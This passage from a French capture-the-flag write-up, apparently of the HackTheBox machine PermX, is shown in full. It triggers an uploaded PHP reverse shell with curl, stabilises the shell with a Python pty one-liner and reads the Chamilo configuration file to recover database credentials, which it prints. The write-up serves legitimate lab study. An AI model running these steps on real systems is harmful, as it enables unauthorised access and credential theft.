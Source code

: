 **Exécution du reverse shell :**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connexion établie → shell www-data obtenu\!
    </p>
</div>

## 🔧 Phase 5 — Stabilisation du shell et énumération

### Amélioration du shell

Stabilisation du shell pour une meilleure interactivité :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160
```

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-info-circle mr-2 text-cyan-500"></i>
        <strong>Astuce :</strong> Cette technique permet d'obtenir un shell interactif complet avec historique des commandes et auto-complétion.
    </p>
</div>

### Énumération des fichiers de configuration

Les applications web stockent souvent des credentials dans leurs fichiers de configuration. On examine le fichier de configuration de Chamilo :

```bash
cat /var/www/chamilo/app/config/configuration.php
```

<div class="bg-white dark:bg-dark-navbar p-6 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-4 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Credentials découverts
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_user']</span> = <span class="text-green-600 dark:text-green-400">'chamilo'</span>;<br>
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_password']</span> = <span class="text-green-600 dark:text-green-400">'03F6lY3uXAP2bkW8'</span>;
        </div>
    </div>
</div>
